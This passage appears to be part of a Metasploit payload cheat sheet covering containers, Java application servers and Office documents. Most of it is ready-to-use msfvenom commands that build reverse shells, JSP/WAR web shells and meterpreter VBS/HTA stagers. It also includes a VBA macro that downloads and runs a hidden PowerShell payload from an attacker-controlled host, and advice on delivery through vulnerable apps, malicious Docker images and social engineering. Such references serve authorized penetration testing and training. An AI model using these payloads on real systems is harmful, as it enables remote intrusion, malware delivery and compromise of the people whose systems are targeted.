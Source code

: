 Containers run Linux (various arches) — use Linux payloads appropriate for container architecture.

- **Linux x64 container shell (example):**
    

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf -o container_shell.elf
```

- **Create a malicious Docker image** by embedding the generated binary in the image and running it. (Test in an isolated environment.)
    

**Note:** Containers often run with limited capabilities; persistence and privilege elevation vary.

---

### Cloud / Java / WAR / EAR

Use Java web payloads to target application servers.

- **JSP reverse shell**
    

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw -o shell.jsp
```

- **WAR (Java web application payload)**
    

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war -o shell.war
```

**Delivery:** upload to vulnerable Java web apps, exploit deserialization, or deploy to app servers.

---

### Office macros & document delivery

Metasploit can generate payloads focusable for macro or script delivery; often combined with social engineering.

- **Windows PowerShell downloader (VBA macro)**:
    

```bash
msfvenom -p windows/exec CMD="powershell -nop -w hidden -c IEX (New-Object Net.WebClient).DownloadString('http://<IP>/payload.ps1')" -f vba -o macro.vba
```

- **Embed a meterpreter stager in a macro or an HTA**: generate an HTA or VBS payload:
    

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f vbs -o meter.vbs
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f hta-psh -o meter.hta
```

**Notes & Safety:** Office macros are highly flagged by modern AV/EDR and email gateways. Use only in authorized engagements and test delivery chains.

---